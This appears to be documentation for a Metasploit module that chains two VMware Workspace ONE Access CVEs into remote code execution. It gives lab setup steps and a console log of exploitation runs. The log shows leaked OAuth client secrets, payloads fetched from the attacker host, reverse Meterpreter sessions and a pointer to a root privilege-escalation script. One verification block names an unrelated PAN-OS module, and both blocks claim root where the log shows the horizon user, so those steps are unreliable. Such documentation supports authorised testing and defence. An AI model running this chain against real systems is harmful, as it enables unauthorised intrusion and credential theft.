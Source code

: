 ## Vulnerable Application

This module combines two vulnerabilities in order achieve remote code execution in the context of the `horizon` user.
The first vulnerability CVE-2022-22956 is an authentication bypass in OAuth2TokenResourceController ACS which allows
a remote, unauthenticated attacker to bypass the authentication mechanism and execute any operation. The second
vulnerability CVE-2022-22957 is a JDBC injection RCE specifically in the DBConnectionCheckController class's dbCheck 
method which allows an attacker to deserialize arbitrary Java objects which can allow remote code execution.

CVE-2022-22956 & CVE-2022-22957:

| Vulnerable Application  | Vulnerable version  |
|---|---|
| VMware Workspace ONE Access (Access)   |  21.08.0.1, 21.08.0.0, 20.10.0.1, 20.10.0.0  |
| VMware Identity Manager (vIDM)  |  3.3.6, 3.3.5, 3.3.4, 3.3.3  |
| VMware vRealize Automation (vRA)  |  8.x, 7.6  |
| VMware Cloud Foundation | 4.x | 
| vRealize Suite Lifecycle Manager | 8.x |

### Setup

In order to download a vulnerable application you do need VMware Customer Connect credentials. Navigate to
[Download VMware Workspace ONE Access (VIDM)](https://customerconnect.vmware.com/downloads/info/slug/desktop_end_user_computing/vmware_workspace_one_access_vidm/20_10).
to download the OVA file.
During VM Configuration within VMware Fusion, in Addition Settings input the following:

#### Application:

Timezone: (timezone of your choice)

Join the VMware Custom Experience Improvement Program: (deselect)

#### Networking Properties: (note the following may depend on your network configuration)

Host Name (FQDN): access01.corp.local

Default Gateway: 192.168.123.1

Domain Name: (blank)

Domain Search Path: (blank)

DNS: 192.168.123.1

IP Address: 192.168.123.16
Network: 255.255.255.0

Add the following line to your `/etc/hosts` file:
`192.168.123.16 access.test.local`

Be sure to change the network adapter of the VM to the network adapter that corresponds to the subnet of the static IP address you assigned above.

#### GUI Setup

Once running navigate to https://access.test.local:8443/cfg/setup
in order to complete the following setup requirements:

Set Passwords
- Appliance Administrator Account
- Appliance Root Account
- Remote User Account

Select Database
- Database Type: Internal Database


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain`
1. Set the `RHOST`, `LHOST` and `TARGET` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### VMware Identity Manager 21.08.0.1-19010796
```
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set rhosts 192.168.123.16
rhosts => 192.168.123.16
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked client_id: acs
[+] Leaked client_secret: Oh2CB8n8PSrBER3NwXs41AaY3D49G7mt
[+] The target is vulnerable. Successfully by-passed authentication by exploiting CVE-2022-22956
[*] Using URL: http://192.168.123.1:8080/ONgtre.xml
[*] Sending stage (24772 bytes) to 192.168.123.16
[+] Now background this session with "bg" and then run "resource run_cve-2022-22960_lpe.rc" to get a root shell
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.16:53750) at 2023-04-07 10:28:46 -0400
[*] Server stopped.

meterpreter > getuid
Server username: horizon
meterpreter > sysinfo
Computer        : access01.corp.local
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.123.16 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set target 1
target => 1
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked client_id: Service__OAuth2Client
[+] Leaked client_secret: 869zxHSe5G7m7KAUSFm4iw3ByZOTdLRc
[+] The target is vulnerable. Successfully by-passed authentication by exploiting CVE-2022-22956
[*] Using URL: http://192.168.123.1:8080/mQUV.xml
[*] Using URL: http://192.168.123.1:8080/JlLraNNZdU
[*] Sending stage (3045348 bytes) to 192.168.123.16
[+] Now background this session with "bg" and then run "resource run_cve-2022-22960_lpe.rc" to get a root shell
[*] Meterpreter session 2 opened (192.168.123.1:4444 -> 192.168.123.16:53818) at 2023-04-07 10:29:26 -0400
[*] Command Stager progress - 100.00% done (116/116 bytes)

meterpreter > getuid
Server username: horizon
meterpreter > sysinfo
Computer     : access01.corp.local
OS           : VMware Photon OS 3.0 (Linux 4.19.217-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
